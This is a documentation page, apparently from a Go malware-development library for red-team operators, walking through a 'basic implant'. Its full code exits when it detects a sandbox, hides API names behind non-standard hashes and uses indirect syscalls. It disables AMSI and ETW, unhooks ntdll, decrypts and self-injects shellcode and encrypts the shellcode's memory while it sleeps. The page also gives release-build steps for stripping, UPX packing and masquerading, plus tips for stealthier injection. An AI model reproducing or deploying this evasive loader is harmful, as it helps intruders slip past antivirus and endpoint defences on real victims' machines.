

# Example: Basic Implant

[← Back to README](../../README.md)

A minimal red-team implant that bails on a sandbox, decrypts shellcode
with ephemeral-plaintext wipe, applies the canonical evasion preset
through indirect-asm syscalls + a non-ROR13 hash, and self-injects.

What changed since the v0.16-era version of this example:

- **`MethodIndirectAsm` instead of `MethodIndirect`** — same end effect
  (every NT call lands on a ntdll-resident `syscall;ret` gadget) but
  the SSN+gadget transition lives in a Go-assembly stub. No writable
  code page in the implant, no per-call `VirtualProtect` dance,
  cleaner call stack. (P2.25 lineage; see `docs/techniques/syscalls/direct-indirect.md`.)
- **Custom `HashFunc`** — the default ROR13 constant `0x411677B7` for
  `ntdll.dll` is on every static fingerprint sheet. Swap to FNV-1a
  (or any of the 6 algorithms in `hash/apihash.go`) and use
  `cmd/hashgen` to pre-compute the API constants at build time.
- **`recon/antivm.Hypervisor()`** — single-call CPUID + RDTSC
  hypervisor probe; cannot be evaded by registry / DMI / file rewrites.
  Bail before paying the decrypt cost.
- **`evasion/preset.Stealth()`** — bundled AMSI + ETW + selective
  unhook in one slice instead of three hand-listed techniques.
- **`crypto.UseDecrypted`** — defer-wipes the plaintext shellcode
  buffer the moment the consumer is done with it. Closes the
  "did the operator remember to wipe?" footgun.
- **`SelfInjector` + sleepmask integration** — the inject result
  carries the `(addr, size)` tuple straight into `Mask.Sleep`, no
  pointer arithmetic at the call site.



## Code

```go
package main

import (
    "context"
    "os"
    "time"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/evasion/sleepmask"
    "github.com/oioio-space/maldev/hash"
    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/recon/antivm"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

// Encrypted payload + key wired in at build time.
var encPayload = []byte{ /* ... output of crypto.EncryptAESGCM ... */ }
var aesKey = []byte{ /* 32-byte key ... */ }

func main() {
    // 1. Sandbox bail. CPUID + RDTSC timing — single-call,
    //    cannot be evaded by registry / DMI rewrites.
    if antivm.Hypervisor().LikelyVM {
        os.Exit(0)
    }

    // 2. Caller — indirect-asm syscalls + FNV-1a API hashing.
    //    The default ROR13 constants are on every static
    //    fingerprint sheet; FNV-1a defeats that match.
    resolver := wsyscall.Chain(
        wsyscall.NewHashGateWith(hash.FNV1a32),
        wsyscall.NewHellsGate(),
    )
    caller := wsyscall.New(wsyscall.MethodIndirectAsm, resolver).
        WithHashFunc(hash.FNV1a32)

    // 3. Evasion stack. Stealth = AMSI + ETW + selective ntdll unhook.
    //    Apply BEFORE any payload allocation (Aggressive would also
    //    flip ACG, blocking subsequent VirtualAlloc(EXECUTE)).
    if err := evasion.ApplyAll(preset.Stealth(), caller); err != nil {
        os.Exit(0)
    }

    // 4. Decrypt + execute under defer-wipe. UseDecrypted hands the
    //    plaintext to the closure, then crypto.Wipe()s the buffer
    //    via defer — runs even if the closure errors or panics.
    _ = crypto.UseDecrypted(
        func() ([]byte, error) {
            return crypto.DecryptAESGCM(aesKey, encPayload)
        },
        func(shellcode []byte) error {
            // 5. Self-inject through the same syscall stack the
            //    evasion layer uses. Build() returns an Injector;
            //    the windowsInjector implementation also satisfies
            //    SelfInjector so we can retrieve the (Addr, Size)
            //    region for the sleepmask hand-off.
            inj, err := inject.Build().
                Method(inject.MethodCreateThread).
                IndirectSyscalls().
                Resolver(resolver).
                Create()
            if err != nil {
                return err
            }
            if err := inj.Inject(shellcode); err != nil {
                return err
            }
            self, ok := inj.(inject.SelfInjector)
            if !ok {
                return nil // injector doesn't expose region; skip mask
            }
            region, ok := self.InjectedRegion()
            if !ok {
                return nil
            }

            // 6. Beacon loop with encrypted dormancy. Mask flips the
            //    region to PAGE_READWRITE, runs the cipher in place
            //    for the sleep duration, restores RX on wake.
            mask := sleepmask.New(sleepmask.Region{
                Addr: region.Addr,
                Size: region.Size,
            })
            ctx := context.Background()
            for {
                _ = mask.Sleep(ctx, 30*time.Second)
            }
        },
    )
}
```

## What This Example Demonstrates

| Step | Primitive | Why |
|---|---|---|
| Sandbox bail | `antivm.Hypervisor()` | CPUID-bit + RDTSC timing — irreducible by registry / DMI rewrites |
| Caller | `MethodIndirectAsm` + `NewHashGateWith(FNV1a32)` | All NT calls bypass user-mode hooks; no plaintext API names; non-ROR13 fingerprint |
| Evasion | `preset.Stealth()` | One slice = AMSI + ETW + selective unhook |
| Decrypt | `UseDecrypted` + `EncryptAESGCM` | AEAD at rest, defer-wiped plaintext at runtime |
| Self-inject | `inject.Build().…BuildSelf()` + `SelfInject` | Fluent builder; returns `InjectedRegion` for downstream hand-off |
| Sleep mask | `sleepmask.Mask.Sleep` on the InjectedRegion | Region is encrypted while idle; defeats memory scanners between beacons |

## Build

```bash
# Pre-compute the FNV-1a constants for your imports so the binary
# carries no plaintext API names AND no ROR13-fingerprintable hashes.
go run ./cmd/hashgen -algo fnv1a32 -package main \
    -o internal/apihashes.go \
    NtAllocateVirtualMemory NtProtectVirtualMemory NtCreateThreadEx

# OPSEC release build (strip + UPX-morph + masquerade).
make release BINARY=implant.exe CMD=.
```

## Hardening dials

- Swap `preset.Stealth()` → `preset.Hardened()` to add CET opt-out
  (required for APC-delivered shellcode on Win11+CET hosts) without
  the irreversible ACG / BlockDLLs of `Aggressive`.
- Swap `MethodCreateThread` → `MethodIndirectAsm`-routed `MethodEarlyBirdAPC`
  for a quieter execution primitive on Win10/11 (suspended child +
  APC inject, no `CreateRemoteThread` event).
- Replace `crypto.DecryptAESGCM` + bytes payload with
  `crypto.NewAESGCMReader` over an `io.Reader` for multi-MB payloads —
  bounded peak memory + per-frame tampering detection.

## See also

- [Evasive injection example](evasive-injection.md) — CET prefix +
  callback execution.
- [Full chain example](full-chain.md) — payload encrypt → masquerade →
  inject → preset → sleepmask → cleanup.
- [Operator path](../by-role/operator.md) — the recommended reading
  order for red-team operators.
